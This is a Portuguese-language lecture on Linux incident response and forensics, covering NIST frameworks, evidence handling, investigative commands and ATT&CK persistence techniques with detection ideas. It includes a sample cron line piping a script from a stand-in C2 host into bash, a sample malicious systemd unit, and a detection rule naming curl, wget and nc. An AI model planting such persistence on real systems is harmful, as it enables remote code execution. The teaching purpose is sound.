

## Resposta a Incidentes em Ambientes Linux

### Objetivos de Aprendizagem

Esta aula destina-se ao desenvolvimento de competências analíticas e práticas essenciais para a atuação em equipes de Resposta a Incidentes de Segurança e Perícia Digital (*Digital Forensics and Incident Response* - DFIR) em ambientes operacionais Linux. 

Ao final da aula o aluno deve poder:

* Reconhecer e classificar anomalias comportamentais e violações de segurança em sistemas baseados em Linux, diferenciando eventos ordinários, alertas de monitoramento e incidentes confirmados.
* Aplicar metodologias formais de preservação de evidências digitais, garantindo a integridade dos artefatos coletados, o registro rigoroso da cadeia de custódia e a minimização de alterações no estado do sistema investigado.
* Conduzir investigações estruturadas em endpoints Linux ativos e em imagens de disco, inspecionando processos em execução, conexões de rede ativas, arquivos de log, contas locais, privilégios administrativos e estruturas do sistema de inicialização.
* Correlacionar artefatos dispersos no tempo e no espaço de armazenamento para reconstruir uma linha do tempo unificada dos acontecimentos ocorridos durante a intrusão.
* Classificar as ações observadas segundo matrizes reconhecidas de táticas e técnicas de adversários, reconhecendo as limitações inerentes à atribuição de autoria.
* Formular e justificar tecnicamente planos de ação proporcionais para as fases de contenção, erradicação e recuperação do sistema afetado.

---

### Fundamentos de Resposta a Incidentes

A resposta a incidentes de segurança cibernética compreende os processos, as ferramentas e as decisões estratégicas necessárias para mitigar os danos decorrentes de violações e restabelecer as operações com rapidez e segurança. No contexto de sistemas operacionais Unix-like, o processo requer uma compreensão precisa das fronteiras entre eventos, alertas e incidentes reais.

Um **evento** é qualquer ocorrência observável em um sistema de computação ou rede [1]. Exemplos incluem a vinculação de um processo a uma porta TCP (*Transmission Control Protocol*), a criação de um novo processo via chamada de sistema `fork()`, ou uma autenticação bem-sucedida via SSH (*Secure Shell*). A maioria esmagadora dos eventos representa comportamentos legítimos de serviços e usuários.

Um **alerta** consiste em um sinal de notificação gerado automaticamente por um mecanismo de detecção — como um IDS (*Intrusion Detection System*), um agente EDR (*Endpoint Detection and Response*) ou uma regra de correlação em um SIEM (*Security Information and Event Management*). O alerta indica que um evento ou padrão de eventos específicos desviou da linha de base estabelecida ou correspondeu a uma assinatura maliciosa conhecida.

Um **incidente de segurança**, por sua vez, é uma violação confirmada — ou uma ameaça iminente de violação — das políticas formais de segurança da informação, das políticas de uso aceitável ou dos padrões de operação segura de um sistema [1]. Um incidente pressupõe perda real ou iminente de confidencialidade, integridade ou disponibilidade dos ativos tecnológicos [1].

Para orientar a triagem e o escalonamento operacional, a equipe investigadora deve quantificar três dimensões fundamentais:

* **Escopo:** a extensão e a amplitude do comprometimento na infraestrutura. Define quais nós da rede, nós de processamento (*endpoints*), instâncias em nuvem, contas de usuário e volumes de armazenamento foram expostos ou controlados pelo adversário.
* **Impacto:** a mensuração do prejuízo decorrente da violação, abrangendo dimensões operacionais (interrupção de serviços críticos), financeiras (custos de resposta e multas regulatórias), reputacionais e de vazamento de propriedade intelectual.
* **Severidade:** a classificação hierárquica do incidente (geralmente categorizada em baixa, média, alta ou crítica), calculada a partir da combinação entre o impacto estimado e a probabilidade de expansão do escopo frente aos objetivos estratégicos da organização.

O modelo conceitual de referência para a gestão dessas crises foi substancialmente reformulado pelo NIST (*National Institute of Standards and Technology*) na publicação especial NIST SP 800-61 Revisão 3 [1]. Durante anos, a comunidade de segurança utilizou como padrão a Revisão 2 da mesma norma (publicada em 2012), a qual organizava o ciclo de vida de resposta em quatro fases lineares e isoladas: (1) Preparação; (2) Detecção e Análise; (3) Contenção, Erradicação e Recuperação; e (4) Atividade Pós-Incidente.

A Revisão 3 do NIST SP 800-61 rompe com essa abordagem de manual técnico autônomo e estático [1]. Ela foi formalmente concebida como um perfil comunitário (*Community Profile*) estruturado diretamente sobre o CSF 2.0 (*NIST Cybersecurity Framework* 2.0) [1]. Essa integração reconhece que a resposta a incidentes não opera como um siclo técnico desconectado, mas como uma engrenagem contínua da gestão abrangente de riscos de segurança da informação [1].

Sob a ótica do NIST SP 800-61 Rev. 3, as capacidades operacionais organizam-se pelas seis funções centrais do CSF 2.0 [1]:

* **Governar (*Govern*):** estabelece as políticas, a estrutura de liderança, a definição de papéis e as obrigações regulatórias para a tomada de decisão antes, durante e após um evento crítico [1].
* **Identificar (*Identify*):** provê o inventário de ativos físicos e lógicos, o mapeamento de dependências de software e a identificação contínua de vulnerabilidades e superfícies de ataque em sistemas Linux [1].
* **Proteger (*Protect*):** compreende as salvaguardas preventivas que reduzem o impacto e a probabilidade de intrusões, como a gestão de identidades, o controle rigoroso de privilégios de acesso e o isolamento de ambientes com segmentação de rede [1].
* **Detectar (*Detect*):** engloba a identificação em tempo hábil de atividades maliciosas por meio da análise contínua de logs, telemetria de processos e detecção de anomalias [1].
* **Responder (*Respond*):** abrange as medidas ativas coordenadas para conter a propagação da ameaça, executar a análise forense de causa-raiz, erradicar o acesso do adversário e conduzir a comunicação técnica com as partes interessadas [1].
* **Recuperar (*Recover*):** envolve o restabelecimento seguro de serviços e recursos comprometidos a partir de estados conhecidos e confiáveis, minimizando o impacto operacional [1].

Nesse arranjo, as funções **Detectar**, **Responder** e **Recuperar** formam o núcleo dinâmico do ciclo de vida ativo do incidente, enquanto **Governar**, **Identificar** e **Proteger** criam os pré-requisitos organizacionais e técnicos para que essa resposta ocorra de forma coordenada [1]. A **melhoria contínua** é implementada por meio de um ciclo iterativo de retroalimentação: os dados e lições aprendidas em um incidente geram novas regras de monitoramento em *Detectar*, revisam arquiteturas de acesso em *Proteger*, e atualizam o plano de gerenciamento de risco em *Governar* [1].





---

### Preservação e Análise de Evidências


A atuação forense no contexto de resposta a incidentes difere da perícia criminal tradicional por priorizar a velocidade de contenção e a restauração do negócio, sem abrir mão da confiabilidade técnica e da rastreabilidade metodológica. O guia metodológico de referência para a condução dessas tarefas é o NIST SP 800-86 (*Guide to Integrating Forensic Techniques into Incident Response*), publicação seminal de 2006 que estabeleceu os fundamentos para a integração de técnicas forenses às rotinas de TI [2]. Embora date de 2006 e não deva ser consultado como documentação de comandos ou ferramentas de software contemporâneas, os princípios metodológicos propostos pelo NIST SP 800-86 permanecem fundamentais para assegurar a validade de qualquer investigação técnica [2].

O processo forense estruturado pelo NIST SP 800-86 desdobra-se em quatro fases essenciais [2]:

1. **Coleta (*Collection*):** consiste em identificar, catalogar, proteger e extrair dados de fontes potenciais de evidência, mantendo a integridade lógica e registrando a cadeia de custódia ininterrupta de cada item adquirido [2].
2. **Exame (*Examination*):** envolve o processamento sistemático dos dados brutos com ferramentas automatizadas e inspeções manuais para filtrar ruídos, extrair artefatos relevantes e expor dados ocultos ou apagados, sem modificar o suporte de origem [2].
3. **Análise (*Analysis*):** é a etapa em que o analista correlaciona os artefatos filtrados, contextualiza as descobertas com a arquitetura do sistema e constrói hipóteses para responder quem, quando, como e quais sistemas foram impactados [2].
4. **Elaboração de Relatório (*Reporting*):** documenta todo o procedimento adotado, descrevendo formalmente as hipóteses levantadas, os fatos constatados, as ferramentas utilizadas (com suas respectivas versões) e as limitações encontradas na análise [2].

A preservação da integridade das evidências digitais apoia-se em quatro pilares metodológicos [2]:

* **Integridade e Funções de Hash Criptográfico:** cada arquivo, partição ou fluxo de memória coletado deve ter seu valor de resumo criptográfico (*hash*) calculado imediatamente após a coleta com algoritmos robustos, como SHA-256 (*Secure Hash Algorithm 256-bit*). Esse valor atua como uma impressão digital matemática: se um único bit for alterado, o hash resultante será completamente diferente, comprovando que a evidência foi preservada em seu estado primitivo [2].
* **Cadeia de Custódia e Documentação das Ações:** a cadeia de custódia consiste em um registro cronológico formal que descreve quem coletou a evidência, a data e hora exatas, onde o artefato foi armazenado fisicamente e logicamente, e todos os indivíduos que tiveram acesso a ele [2]. Simultaneamente, todos os comandos emitidos pelos analistas durante o exame devem ser anotados em um diário de bordo com seus parâmetros e saídas.
* **Uso Exclusivo de Cópias de Trabalho (*Working Copies*):** o investigador nunca deve realizar testes, buscas complexas ou execuções diretamente sobre o artefato original ou sobre a imagem forense primária [2]. A prática correta exige a geração de uma imagem bit-a-bit do disco (formato RAW ou formatos encapsulados com metadados como EWF/E01), a validação de seu hash contra a mídia de origem, a criação de uma cópia de trabalho dessa imagem e, finalmente, a montagem da cópia de trabalho em modo estritamente de leitura (*read-only*) para as análises analíticas [2].
* **Correlação entre Múltiplas Fontes de Evidência:** hipóteses investigativas não devem se apoiar em um único registro isolado. É imperativo correlacionar evidências de logs de autenticação, registros de journal, metadados de arquivos e conexões de rede para neutralizar incoerências decorrentes de manipulação ou falhas de relógio [2].

Um dos dilemas centrais do analista forense consiste na escolha entre a **investigação em sistema ativo** (*live analysis*) e a **análise forense de imagem de disco** (*dead analysis* ou *offline forensics*):

A **análise de imagem (*offline*)** ocorre com a máquina desligada ou após a suspensão completa de uma máquina virtual. Seus pontos fortes são a garantia de imutabilidade dos dados persistidos e a possibilidade de recuperação de arquivos deletados em áreas não alocadas do sistema de arquivos (*unallocated space*). Contudo, essa modalidade é cega para dados voláteis que residiam exclusivamente na memória de acesso aleatório (RAM - *Random Access Memory*) obs: não é o álbum do Daft Punk.

A **investigação em sistema ativo (*live*)** é indispensável para coletar informações voláteis críticas: chaves de criptografia em memória, conexões de rede em andamento, processos ativos que não deixaram rastros em disco e arquivos em execução que foram deletados mas permanecem abertos pelo kernel Linux via descritores em `/proc/<PID>/fd/`. 

No entanto, operar em um sistema Linux em execução introduz o **efeito observador**: qualquer comando executado no sistema ativo altera seu estado interno. Ao abrir um terminal ou emitir comandos em um sistema sob investigação, o analista:

* Altera carimbos de data/hora de acesso a arquivos (*atime*) nas bibliotecas dinâmicas e binários chamados.
* Aloca novas estruturas de descritores de processo no kernel, gerando novos identificadores de processo (PIDs - *Process Identifiers*) e substituindo buffers voláteis.
* Aloca páginas de memória RAM, podendo sobrescrever fragmentos de código malicioso ou chaves de sessão deixadas pelo adversário.
* Pode gravar entradas no histórico do shell e gerar registros em `/var/log/auth.log` caso recorra ao `sudo`.
* Corre o risco de acionar *anti-forensics* ou rotinas de descarte (*dead-man switches*) programadas no malware para detectar comandos de inspeção.

Por essas razões, a análise em sistema ativo deve ser mínima, precedida pelo despejo (*dump*) da memória volátil sempre que viável, documentada em seus passos e conduzida a partir de binários confiáveis e estáticos trazidos externamente pelo analista em uma mídia somente de leitura, evitando a dependência de binários locais que possam ter sido trocados por rootkits [2].

---

### Fontes de Evidência em Sistemas Linux

A investigação de sistemas operacionais baseados em Linux requer a consulta a múltiplos subsistemas que registram autenticações, execução de programas, persistências e modificações em arquivos [4].


#### Journal do systemd e logs de aplicações

O `systemd-journald` coleta registros do sistema, incluindo mensagens do kernel e de serviços. Também pode receber a saída padrão (`stdout`) e a saída de erro (`stderr`) de aplicações executadas como serviços, conforme sua configuração. Esses registros formam o **journal**, consultado pelo comando **`journalctl`**.

**Consulta básica e navegação**

```bash
# Consultar os registros disponíveis
sudo journalctl

# Mostrar as últimas 50 entradas
sudo journalctl -n 50

# Mostrar primeiro as entradas mais recentes
sudo journalctl -r

# Acompanhar novas entradas em tempo real
sudo journalctl -f
```

Na visualização interativa, use as setas para navegar, `/texto` para pesquisar e `q` para sair. Para encerrar o acompanhamento em tempo real, pressione `Ctrl+C`. A opção `--no-pager` imprime diretamente no terminal.

**Filtrar por serviço e período**

A opção `-u` seleciona uma unidade do systemd; `--since` e `--until` delimitam o período:

```bash
# Registros do servidor SSH
sudo journalctl -u ssh.service

# Registros de hoje
sudo journalctl --since today

# Registros da última hora
sudo journalctl --since "1 hour ago"

# SSH em um intervalo específico
sudo journalctl -u ssh.service -u sshd.service \
  --since "2026-10-25 00:00:00" \
  --until "2026-10-25 04:00:00" \
  --no-pager
```

Repetir `-u` inclui qualquer uma das unidades indicadas. No último exemplo, aparecem registros de `ssh.service` **ou** `sshd.service`, dentro do período selecionado. As datas usam o fuso local do sistema, salvo indicação explícita de outro fuso.

**Filtrar por inicialização, prioridade e conteúdo**

```bash
# Listar inicializações com registros disponíveis
sudo journalctl --list-boots

# Registros da inicialização atual
sudo journalctl -b

# Registros da inicialização anterior
sudo journalctl -b -1

# Mensagens do kernel da inicialização atual
sudo journalctl -k -b

# Erros e mensagens de maior gravidade
sudo journalctl -p err

# Buscar mensagens de falha no SSH
sudo journalctl -u ssh.service \
  --grep='Failed|Invalid user|authentication failure'
```

`-p err` inclui erros e prioridades superiores; `-p warning` inclui também avisos. Entretanto, falhas de autenticação podem ser registradas com prioridade informativa: filtros de severidade podem ocultá-las. A opção `--grep` pesquisa o conteúdo das mensagens por expressão regular.

**Consultar campos dos registros**

Além do texto, cada entrada pode conter campos como identificador do programa, PID e UID:

```bash
# Mensagens identificadas como sudo
sudo journalctl SYSLOG_IDENTIFIER=sudo

# Mensagens de processos com UID 1000
sudo journalctl _UID=1000

# Exibir os campos das últimas cinco entradas
sudo journalctl -n 5 -o verbose
```

O campo `_UID` identifica o usuário do processo que originou a mensagem; não necessariamente o usuário mencionado nela ou a conta utilizada numa tentativa de acesso.

**Permissões e limitações**

O acesso ao journal completo normalmente exige `root` ou permissões concedidas por grupos como `systemd-journal` e `adm`. Sem essas permissões, o usuário consulta apenas os registros aos quais tem acesso.

A disponibilidade do histórico depende da configuração:

- **Armazenamento volátil:** registros em `/run/log/journal/` não sobrevivem à reinicialização.
- **Armazenamento persistente:** registros em `/var/log/journal/` podem sobreviver à reinicialização, conforme a política de retenção.
- **Limites de espaço e retenção:** podem remover registros antigos.
- **Limites de frequência:** `RateLimitIntervalSec` e `RateLimitBurst` podem descartar novas mensagens durante surtos de atividade. Isso é diferente de uma cota de armazenamento.

**Logs próprios das aplicações**

Aplicações também podem gravar arquivos separados. Os diretórios `/var/log/nginx/` e `/var/log/apache2/`, mencionados anteriormente, são exemplos cuja utilização depende da configuração do servidor. Ao investigar, consulte tanto o journal do serviço quanto seus logs de acesso e erro. Um código HTTP 500, isoladamente, indica uma falha no processamento da requisição; não comprova exploração.

#### Processos, Relações Hierárquicas e Conexões de Rede
O pseudo-sistema de arquivos `/proc` é a interface direta fornecida pelo kernel Linux para examinar o estado interno dos processos ativos [9]. Cada processo em execução possui um diretório correspondente identificado pelo seu PID em `/proc/<PID>/`.

Para a inspeção de processos, a relação entre o PID e o identificador do processo pai (PPID - *Parent Process Identifier*) é crucial [9]. Essa árvore hierárquica permite identificar execuções anômalas, tais como um servidor web (`www-data`) atuando como processo pai de um interpretador de comandos interativo (`/bin/bash` ou `/bin/sh`), ou utilitários utilitários como `curl` e `nc` rodando sob a égide de um serviço de banco de dados [4].

O comando `ps` do projeto procps-ng permite inspecionar essa hierarquia estruturada [9]:

```bash
# Inspecionar arvore de processos com linhagem detalhada
ps -ef --forest
```

* **Finalidade investigativa:** apresentar visualmente a linhagem de processos no formato de árvore hierárquica, correlacionando pais e filhos (`--forest`), juntamente com o usuário proprietário e a linha de comando completa (`-ef`) [9].
* **Privilégios necessários:** usuário comum pode executar o comando, mas visualizará linhas de comando de outros usuários com eventuais restrições caso o kernel esteja configurado com a opção de montagem `hidepid` em `/proc`.
* **Limitações dos resultados:** o comando `ps` é uma ferramenta que lê `/proc` em espaço de usuário [9]. Se um rootkit de nível de kernel (*Loadable Kernel Module* - LKM) tiver sido carregado pelo atacante, ele pode interceptar as chamadas de sistema e ocultar o PID de processos maliciosos tanto de `/proc` quanto de utilitários como `ps` e `top`.

Para mapear conexões de rede em tempo real, utiliza-se a ferramenta `ss` (*socket statistics*), integrante do pacote oficial `iproute2`, que consulta diretamente os subsistemas de sockets do kernel [8]:

```bash
# Listar sockets TCP e UDP em escuta ou conectados com PIDs associados
sudo ss -tulpn
```

* **Finalidade investigativa:** listar portas em estado de escuta (*listening*) e conexões ativas nos protocolos TCP (`-t`) e UDP (`-u`), exibindo endereços numéricos (`-n`), processos responsáveis e seus respectivos descritores de sockets (`-p`) [8].
* **Privilégios necessários:** `root` (ou `sudo`). Usuários sem privilégios conseguem listar as portas abertas, mas o parâmetro `-p` (que associa o socket ao PID e nome do binário) não exibirá os processos pertencentes a outros usuários [8].
* **Limitações dos resultados:** o comando fornece uma fotografia instantânea de sockets abertos [8]. Conexões de curta duração (como requisições rápidas de C2 ou consultas DNS pontuais) podem ser concluídas e encerradas antes da emissão do comando, escapando à observação caso não haja captura contínua de tráfego de rede ou auditoria via `auditd`.

#### Contas, Grupos, Permissões e Chaves SSH
A gestão de identidades no Linux reside primariamente em arquivos de configuração local:

* `/etc/passwd`: mapeia o nome de usuário, UID (*User Identifier*), GID (*Group Identifier*), diretório base (*home*) e o shell padrão. Atacantes podem adicionar contas com UID 0 (privilégio equivalente ao `root`) ou modificar contas de sistema (como `daemon` ou `nobody`) atribuindo-lhes shells interativos como `/bin/bash` em vez de `/usr/sbin/nologin`.
* `/etc/shadow`: armazena os hashes criptográficos de senha e políticas de expiração. Contas com campos de senha contendo `!` ou `*` estão bloqueadas para autenticação por senha.
* `/etc/sudoers` e `/etc/sudoers.d/`: controlam quais usuários e grupos possuem permissão de elevar privilégios. Diretivas permissivas como `NOPASSWD: ALL` garantem elevação imediata e representam artefatos primários de pós-exploração.
* `~/.ssh/authorized_keys`: armazena chaves públicas autorizadas a acessar o usuário sem digitação de senha. A injeção de uma chave pública controlada pelo atacante nos arquivos `authorized_keys` dos usuários legítimos ou do `root` é um dos mecanismos mais comuns de persistência discreta [3].
* **Binários com bits SUID (*Set User ID*) e SGID (*Set Group ID*):** arquivos executáveis que possuem o bit de permissão especial ativo (`chmod u+s`). Quando executados por um usuário comum, rodam com as permissões do dono do arquivo (comumente `root`). A busca por binários SUID fora dos diretórios padrão de sistema ou binários conhecidos modificados recentemente é uma rotina investigativa obrigatória.

O exemplo a seguir demonstra a busca por binários com SUID ativo:

```bash
# Localizar binarios SUID pertencentes ao superusuario
sudo find / -perm -4000 -user root -type f -exec ls -la {} + 2>/dev/null
```

* **Finalidade investigativa:** varrer o sistema de arquivos em busca de executáveis com bit SUID pertencentes ao usuário `root`, permitindo identificar utilitários suspeitos criados para garantir elevação permanente de privilégios.
* **Privilégios necessários:** `root` para varrer diretórios com permissões restritas sem gerar excessivas mensagens de erro de permissão.
* **Limitações dos resultados:** o comando varre o disco, gerando grande volume de operações de entrada e saída (I/O) que afetam carimbos de acesso (`atime`) de diretórios e consomem recursos do sistema.

#### Histórico de Shell e Metadados de Arquivos
O histórico de comandos digitados por usuários interativos é mantido em arquivos como `~/.bash_history` ou `~/.zsh_history`. Esses arquivos podem expor linhas de comando invocadas pelo adversário, diretórios acessados e senhas digitadas acidentalmente.
Contudo, o histórico de shell possui severas limitações:

* O histórico é armazenado em memória durante a sessão e gravado no disco apenas no encerramento normal do shell. Caso o terminal seja fechado abruptamente com `kill -9`, os comandos daquela sessão não são gravados.
* O adversário pode desativar a gravação com o comando `unset HISTFILE` ou `set +o history`.
* Se a variável de ambiente `HISTCONTROL` contiver `ignorespace`, comandos precedidos por um simples caractere de espaço não são gravados no arquivo de histórico.
* Arquivos de histórico podem ser editados manualmente ou apagados com `shred` ou `rm`.

A integridade temporal de arquivos em disco apoia-se na análise de metadados. O Linux gerencia quatro carimbos de data/hora principais (frequentemente agrupados pelo acrônimo forense MACB):

* **M (*Modification time* - `mtime`):** data e hora da última modificação efetuada no **conteúdo** do arquivo.
* **A (*Access time* - `atime`):** data e hora do último acesso para leitura do arquivo. Em muitos sistemas modernos, essa métrica é truncada ou atrasada para poupar operações de I/O (opções de montagem de partição como `noatime` ou `relatime`).
* **C (*Change time* - `ctime`):** data e hora da última modificação nos **metadados** ou no inode do arquivo (como alterações de permissão, proprietário ou nome). Ao contrário do `mtime` e `atime`, o `ctime` não pode ser forjado diretamente via chamadas de sistema ordinárias em espaço de usuário como `utime()`, sendo atualizado compulsoriamente pelo kernel.
* **B (*Birth time* ou *crtime*):** data e hora de **criação** original do arquivo. Suportado nativamente em sistemas de arquivos modernos como ext4 e xfs.

A verificação precisa desses carimbos pode ser efetuada via utilitário `stat` do GNU Coreutils [10]:

```bash
# Extrair metadados forenses e carimbos de tempo de um arquivo suspeito
stat /usr/local/bin/backdoor.sh
```

* **Finalidade investigativa:** inspecionar o número do inode, permissões octais, UID/GID dos proprietários, tamanho real em bytes e os quatro carimbos de tempo (Acesso, Modificação, Alteração e Criação) [10].
* **Privilégios necessários:** privilégios de leitura ordinários sobre o caminho e diretórios ancestrais.
* **Limitações dos resultados:** o carimbo de criação (*Birth*) pode não ser exibido ou retornar nulo caso o sistema de arquivos subjacente não suporte o campo ou tenha sido clonado via ferramentas que não preservem atributos de inode [10].

#### Agendadores de Tarefas: Cron, Serviços e Timers do Systemd
O agendamento automático de tarefas é o vetor primário para restabelecer comunicação ou garantir persistência após reinicializações [5]:
* **Cron:** as tabelas de tarefas do usuário residem tipicamente em `/var/spool/cron/crontabs/` (ou `/var/spool/cron/`), enquanto as tarefas do sistema são divididas entre `/etc/crontab` e os diretórios modulares `/etc/cron.d/`, `/etc/cron.hourly/`, `/etc/cron.daily/`, `/etc/cron.weekly/` e `/etc/cron.monthly/`.
* **Systemd Services e Timers:** o systemd introduziu unidades `.service` atreladas a arquivos `.timer` que operam como agendadores com resolução temporal de microssegundos [5]. Unidades criadas por administradores ou atacantes residem preferencialmente em `/etc/systemd/system/` (que tem precedência sobre os diretórios fornecidos pela distribuição em `/lib/systemd/system/` ou `/usr/lib/systemd/system/`) [5]. Unidades de persistência em nível de usuário sem privilégios de superusuário residem em `~/.config/systemd/user/` [5].

A listagem de timers pode ser inspecionada via `systemctl`:

```bash
# Listar todos os timers ativos no sistema operacional
systemctl list-timers --all
```

* **Finalidade investigativa:** verificar os temporizadores cadastrados no systemd, o horário programado para o próximo disparo (*NEXT*), o tempo decorrido desde a última execução (*LAST*) e o serviço `.service` disparado associado.
* **Privilégios necessários:** usuário comum pode executar para visualizar timers do sistema.
* **Limitações dos resultados:** unidades do tipo *generator* geradas dinamicamente durante o boot ou timers criados sob a sessão específica de outro usuário (`--user`) não são exibidos sem a passagem de parâmetros adicionais específicos ou privilégios de superusuário.

#### Ressalva Investigativa: Ausência de Evidência
Um erro frequente cometido por analistas iniciantes é assumir que a falta de registros em logs comprova a inexistência de atividade adversária. **A ausência de registros não constitui prova de ausência de atividade**. O atacante pode:

1. Ter executado código diretamente em memória por meio de técnicas de injeção em processos legítimos sem gerar arquivos em disco.
2. Ter contornado o subsistema de log operando em sessões em que o logging foi desligado antes da execução de comandos.
3. Ter truncado ou apagado cirurgicamente os arquivos de log após elevar privilégios.
4. Ter utilizado métodos de comunicação que não passam pelos daemons auditados.
Portanto, a conclusão de que uma ação não ocorreu deve ser sustentada pela prova de impossibilidade técnica, e não pela simples falta de registros nos logs auditados [2][4].

---

### Comportamento do Atacante e Persistência

Para analisar as atividades de intrusão com metodologia científica, a indústria utiliza a matriz **MITRE ATT&CK** (*Adversarial Tactics, Techniques, and Common Knowledge*), uma base de conhecimento estruturada que cataloga comportamentos reais de atacantes [3]. No ecossistema Linux, as evidências de pós-exploração distribuem-se predominantemente em táticas de Execução, Persistência, Elevação de Privilégios e Comando e Controle (C2) [3].

#### Mapeamento de Táticas e Técnicas no MITRE ATT&CK para Linux
1. **Execução (*Execution*):** compreende os métodos utilizados para executar comandos na máquina vítima [3]. No Linux, a técnica prevalente é o uso de interpretadores de comandos Unix (*Command and Scripting Interpreter: Unix Shell* — **T1059.004**), como sessões de `/bin/bash`, scripts `/bin/sh` ou execução de código Python e Perl [3].
2. **Persistência (*Persistence*):** compreende os mecanismos empregados para manter o acesso ao endpoint mesmo após reinicializações, interrupções de rede ou encerramento de processos em execução [3][5]. As técnicas centrais incluem:
    * *Scheduled Task/Job: Cron* (**T1053.003**): criação ou adulteração de entradas em `/etc/crontab` ou `/var/spool/cron/crontabs/` programadas para disparar shells reversos periodicamente [3][5].
    * *Create or Modify System Process: Systemd Service* (**T1543.002**): criação de arquivos `.service` maliciosos para execução autônoma na inicialização do sistema [3][5].
    * *Account Manipulation: SSH Authorized Keys* (**T1098.004**): inserção de chaves criptográficas públicas em `~/.ssh/authorized_keys` para assegurar acesso interativo remoto sem necessidade de conhecer senhas de usuários [3][5].
    * *Create Account: Local Account* (**T1136.001**): provisionamento de novos usuários com privilégios locais para servirem de portas de entrada secundárias [3].
    * *Event Triggered Execution: .bash_profile and .bashrc* (**T1546.004**): inserção de instruções maliciosas nos scripts de inicialização de ambiente do shell, acionadas automaticamente sempre que o usuário efetua login interativo [3][5].
3. **Elevação de Privilégios (*Privilege Escalation*):** processos executados para obter privilégios de superusuário (`root`) a partir de uma sessão restrita [3]. Destacam-se:
    * *Abuse Elevation Control Mechanism: Sudo and Sudo Caching* (**T1548.003**): exploração de permissões indevidas no arquivo `/etc/sudoers` (como utilitários de sistema que permitem *escape* para o shell) ou sequestro de sessões autenticadas do sudo via reaproveitamento de tokens em `/var/run/sudo/ts/` [3].
    * *Abuse Elevation Control Mechanism: Setuid and Setgid* (**T1548.001**): execução de binários modificados com o bit SUID para transicionar a identidade do processo para UID 0 [3].
4. **Comando e Controle (*Command and Control* - C2):** técnicas para comunicar-se com a infraestrutura controlada pelo atacante fora da rede da vítima [3]:
    * *Application Layer Protocol: Web Protocols* (**T1071.001**): tunelamento de comandos e exfiltração de dados camuflados em requisições HTTP e HTTPS [3].
    * *Non-Application Layer Protocol* (**T1095**): sessões diretas baseadas em sockets TCP/UDP brutos para viabilizar conexões de *reverse shell* [3].
    * *Ingress Tool Transfer* (**T1105**): download de scripts, binários de exploração e utilitários auxiliares a partir de servidores externos através de comandos utilitários como `curl`, `wget` ou transferência via sockets Python [3].

#### Mecanismos de Persistência e Engenharia de Detecção
De acordo com os estudos de engenharia de detecção da Elastic Security Labs, a persistência no Linux baseia-se fundamentalmente no abuso de subsistemas nativos e legítimos do sistema operacional, os quais foram projetados para rodar de maneira invisível e sem supervisão direta do usuário [5].

1. **Abuso do Agendador Cron (T1053.003):**
O daemon `cron` é tradicionalmente consultado a cada minuto para verificar alterações nos arquivos de tabelas agendadas [5]. 
* *Modo de Operação Técnico:* o atacante edita a crontab do usuário comprometido ou, caso possua acesso privilegiado, insere uma linha no arquivo `/etc/crontab` ou um novo script dentro de `/etc/cron.d/`. Frequentemente, a linha agendada faz chamadas a binários que realizam transferências de rede e executam diretamente em memória ou através do interpretador:
  `* * * * * root curl -s http://c2.exemplo.com/agent.sh | bash`
* *Detecção e Telemetria:* a detecção não deve se ater unicamente à leitura periódica dos arquivos em disco. Mecanismos de monitoramento de integridade de arquivos (FIM - *File Integrity Monitoring*) e regras no subsistema de auditoria do Linux (`auditd`) devem monitorar a chamada de sistema `open()` com flags de escrita (`O_WRONLY`, `O_RDWR`) e `rename()` direcionadas aos diretórios de crontab [5]. Na telemetria de processos, uma regra de detecção via EQL (*Event Query Language*) pode sinalizar a criação de processos filhos de rede originados do daemon `cron`:
  `process where process.parent.name == "cron" and process.name in ("curl", "wget", "nc", "bash", "sh")` [5].

2. **Abuso de Unidades do Systemd (T1543.002):**
Modernas distribuições Linux concentram a gestão de daemons no systemd, tornando os arquivos `.service` um dos vetores de persistência mais estáveis e flexíveis [5].
* *Modo de Operação Técnico:* o atacante cria uma unidade de serviço personalizada, gravando um arquivo de configuração no caminho `/etc/systemd/system/malware.service` [5]. Esse arquivo é estruturado com a seção `[Service]`, na qual o parâmetro `ExecStart` aponta para a carga maliciosa armazenada no disco (frequentemente camuflada em diretórios com permissão de escrita global, como `/tmp`, `/var/tmp` ou `/dev/shm`):
  ```ini
  [Unit]
  Description=System Network Optimization Service
  After=network.target

  [Service]
  Type=simple
  ExecStart=/dev/shm/.network_sync
  Restart=always
  RestartSec=60

  [Install]
  WantedBy=multi-user.target
  ```
  Após a criação do arquivo, o serviço é ativado com `systemctl enable malware.service`, o que cria um link simbólico dentro do diretório `/etc/systemd/system/multi-user.target.wants/` [5].
* *Detecção e Telemetria:* o sistema de auditoria deve disparar alertas sempre que novos arquivos com extensão `.service` ou `.timer` forem criados nos diretórios do systemd (`/etc/systemd/system/`, `/usr/lib/systemd/system/` e diretórios de usuário em `~/.config/systemd/user/`) [5]. Além disso, deve-se auditar invocações do utilitário `systemctl` que incluam o argumento `enable` ou `start` direcionadas a serviços não catalogados no inventário de software [5].

3. **Injeção de Chaves no SSH (T1098.004):**
* *Modo de Operação Técnico:* após obter execução como um usuário local ou como superusuário, o atacante anexa sua chave pública ao final do arquivo `~/.ssh/authorized_keys` [5]. Essa operação concede a ele a capacidade de conectar-se a qualquer momento via SSH, dispensando o conhecimento de senhas locais e contornando mecanismos de autenticação baseados em formulários web [5].
* *Detecção e Telemetria:* monitoramento estrito de modificações nos diretórios `.ssh/` e no arquivo `authorized_keys` de todos os usuários do sistema operacional [5]. A correlação temporal é indispensável: correlacionar a data de modificação (`mtime`) do arquivo `authorized_keys` com os registros de autenticação em `/var/log/auth.log` ou `/var/log/secure` revela qual sessão efetuou a alteração indevida [4][5].

